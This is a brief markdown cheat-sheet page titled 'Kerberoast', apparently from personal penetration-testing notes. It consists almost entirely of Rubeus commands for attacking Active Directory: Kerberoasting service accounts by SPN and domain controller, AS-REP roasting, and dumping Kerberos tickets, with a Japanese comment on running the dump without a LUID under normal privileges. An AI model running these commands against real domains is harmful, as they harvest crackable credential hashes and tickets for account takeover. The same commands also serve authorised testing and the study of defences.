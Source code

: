 ```yaml
---
title: Kerberoast
category: active directory
weight: -1
---
```


## Kerberoasting

```
Rubeus.exe kerberoast /spn:xxx /dc:xxx
Rubeus.exe kerberoast /spn:xxx /dc:xxx /tgtleg 
```

## AS-REP Roasting
```
Rubeus.exe asreproast
```

## Dump Tickets
```
Rubeus.exe dump

# 一般権限でやるときはluidを指定しないほうがいいらしい
Rubeus.exe dump /luid:0x47869cc
```

